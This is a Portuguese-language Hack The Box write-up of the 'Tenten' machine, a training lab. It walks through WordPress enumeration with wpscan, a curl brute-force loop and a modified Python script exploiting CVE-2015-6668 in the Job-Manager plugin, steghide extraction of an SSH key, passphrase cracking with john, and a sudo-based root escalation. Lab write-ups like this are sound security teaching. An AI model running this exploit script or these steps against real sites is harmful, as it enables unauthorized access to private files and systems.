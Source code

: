 ```yaml
---
title: "Hack The Box - Tenten"
tags: [Linux,Medium,WordPress,Wpscan,sshng2john,John,Sudo,Job-Manager,CVE-2015-6668,Steghide]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_inicial.png)

Link: <https://www.hackthebox.eu/home/machines/profile/8>

# Enumeração

## Primeiro passo é rodar o nmap contra a máquina, para verificar quais portas estão abertas e quais serviços estão sendo disponibilizados pelas portas.

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_nmap.png)

### Explicação de cada parâmetro do Nmap

> -sC --> Rodar alguns scripts padrão em cada porta

> -sV --> Levantar qual serviço está rodando na porta

> -Pn --> Já considera o host ativo

### Verificamos que temos 2 portas abertas no servidor

> Porta 22 - Servidor SSH. Dificilmente a exploração vai ser por aqui

> Porta 80 - Servidor Web

## Enumeração da porta 80

Abrimos o browser no endereço e encontramos a seguinte página web

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_web.png)

Bom por identificarmos que é `WordPress` devemos sempre rodar o `wpscan` pra ver se ele nos traz vulnerabilidades e/ou usuários

### Wpscan

Geralmente exploração de WordPress se da através de plugins que o administrador do sistema instala, então vamos verificar tudo que tem instalado neste servidor

> wpscan --url http://10.10.10.10

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_wpscan.png)

Encontramos um plugin instalado, o `job-manager`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_wpscan1.png)

Vamos enumerar usuários também

> wpscan --url http://10.10.10.10 -e u

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_wpscan2.png)

Encontramos o usuário `takis`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_wpscan3.png)

#### Plugin Job-Manager

Vamos perguntar sobre esse plugin pra quem sabe... Google

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_google.png)

> CVE-2015-6668

> https://www.acunetix.com/vulnerabilities/web/wordpress-plugin-job-manager-security-bypass-0-7-25/

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_google1.png)

Dentro desse site nos dá acesso a outro site, onde explica como explorar essa vulnerabilidade

> https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/

Resumindo: essa vulnerabilidade nos da permissão pra acessar arquivos que foram upados no servidor e que não deveriamos ter acesso, verificando pelo site nós encontramos o ponto onde podemos upar arquivos e imagens. É um brute force, iriamos ficar trocando de 8 pra 9 pra 10... e ie visualizando os arquivos upados

> http://10.10.10.10/index.php/jobs/apply/8/

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_wp.png)

# Explorando Job Manager Wordpress

Bom, vamos realizar a exploração do modo que está sendo explicado pelo tutorial

Realizamos o upload de uma imagem qualquer, pra testar se conseguimos visualizar ela no site

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_wp1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_wp2.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_wp3.png)

Verificamos no código fonte da página como está descrito algum campo pra podermos fazer o BruteForce na página, é em '<title>'

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_wp4.png)

## Brute Force na aplicação

Bom, uma vez upado um arquivo, verificado como ele aparece no site, vamos realizar o brute force pra verificar outros arquivos que foram upados lá

```
for i in $(seq 1 20); do echo -n "$i: "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep '<title>'; done
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_brute.png)

Opa, algo estranho. Achamos um arquivo chamado 'HackerAccessGranted'

Po, mas eu poderia fazer isso na mão... trocando os valores, sim, poderiamos, mas sei lá, vai que ocorra uma situação onde o arquivo que eu quero está em 250... ir indo uma um demora tempo pra caramba


### Download da imagem

Agora o blog nos dá duas opções para realização do download dessa imagem 'HackerAccessGranted', uma delas é através de uma requisição especifica no site. Outra é através de um script já pronto que só precisamos jogar qual imagem queremos baixar


#### Através wget

O blog específica como sendo essa a requisição

> /wp-content/uploads/%year%/%month%/%filename%

Então vamos descobrir qual é o ano e mês, sabemos que é a de número 13. Verificando na postagem do jobs listing temos uma dica

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_jobs.png)

> Start Date 2017-04-01

> End Date 2017-04-20

Bom, então colocamos como sendo ano 2017 e mês 04

> /wp-content/uploads/2017/04/HackerAccesGranted.jpg

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_job1.png)

#### Através do script

Pegamos o script do blog e fizemos algumas alterações

Antes:

```
import requests

print """  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
"""  
website = raw_input('Enter a vulnerable website: ')  
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2013,2016):  
    for i in range(1,13):
        for extension in {'doc','pdf','docx'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```

Depois:

```
import requests

print """
CVE-2015-6668
Title: CV filename disclosure on Job-Manager WP Plugin
Author: Evangelos Mourikis
Blog: https://vagmour.eu
Plugin URL: http://www.wp-jobmanager.com
Versions: <=0.7.25
"""
website = raw_input('Enter a vulnerable website: ')
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2017,2018):
    for i in range(3,13):
        for extension in {'jpg','jpeg','png'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```

Alterações: Range de Years e Formats

Rodamos o script

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_exp.png)

Aqui está a imagem

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_img.png)

### Extraindo chave SSH

Bom agora que temos a imagem podemos começar a trabalhar com ela, a primeira coisa a verificar é que ela não é uma imagem qualquer. Rodo o strings, binwalk e não consigo nada... vou conseguir somente com o `steghide`

> steghide extract -sf HackerAccessGranted.jpg

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_steg.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_steg1.png)

Uma chave SSH!

Só que temos um pequeno problema, ela está com senha, não conseguiremos fazer acesso sem antes quebrar essa senha dela

### Quebrando senha chave SSH

Usarei uma ferramenta chamada `ssh2john` para realizar a geração do hash dessa senha pra podermos quebrar

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_ssh.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_ssh1.png)

Baixamos pra máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_ssh2.png)

Executamos no arquivo id_rsa

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_ssh3.png)

Agora com o `john` realizamos a quebra da senha

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_ssh4.png)

> superpassword (id_rsa)

### Login SSH

Agora com a chave e a senha, realizamos o login na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_ssh5.png)

# Escalação de privilégio

Agora vamos iniciar a escalação de privilégio

Verificando com `sudo -l` as permissões que tenho na máquina para rodar comandos como root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_sudo.png)

Opa, posso executar esse `/bin/fuckin` como root

Vamos verificar o que ele faz

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_sudo1.png)

Bom, se passarmos outros comandos pra ele, ele vai executar, então passamos um bash e viramos root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_sudo2.png)

## Pegando flag de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tenten/T_user.png)